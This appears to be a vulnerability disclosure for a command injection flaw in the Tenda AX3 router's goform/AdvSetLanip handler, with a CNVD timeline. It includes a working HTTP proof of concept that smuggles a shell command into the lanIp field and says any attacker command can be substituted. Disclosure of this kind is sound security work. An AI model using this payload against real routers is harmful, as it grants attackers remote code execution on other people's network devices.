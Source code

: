 # Tenda Router AX3 Vulnerability

There is a vulnerability lies in page goform/AdvSetLanip,which influences the lastest version of Tenda Router AX3([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html)). 

## Description

Vulnerabliity function fromAdvSetLanip(sub_ 511BC)

The variable v5 will directly retrieved from http request parameter lanIp , and execute SetValue(lan.ip,v5);

![image-20220115002459194](./1.png)

![image-20220115003229422](./2.png)

The value lan.ip is used in the parameters of the system function in many places.

For Example , function TendaTelnet

![image-20220115003502287](/Users/zyh/文档/挖/IoT-CVE/Tenda/AX3/1/3.png)

Once the value of lan.ip is set, the Router will always call the system function with the parameter lan.ip to perform command injection, resulting in RCE.

## POC

```bash
POST /goform/AdvSetLanip HTTP/1.1 
Host: tendawifi.com 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0 Accept: */* 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,enUS;q=0.3,en;q=0.2 Accept-Encoding: gzip, deflate 
Content-Type: application/x-www-form-urlencoded; 
charset=UTF-8 
X-Requested-With: XMLHttpRequest 
Content-Length: 25 
Connection: close 
Referer: http://tendawifi.com/index.html 

lanIp=192.168.0.1;reboot;
```

"reboot" can be replaced with any command the attacker wants to execute.

## Timeline

- 2021-12-28  report to CNVD&CVE 

- 2022-1-14    CNVD ID assigned : CNVD-2022-03736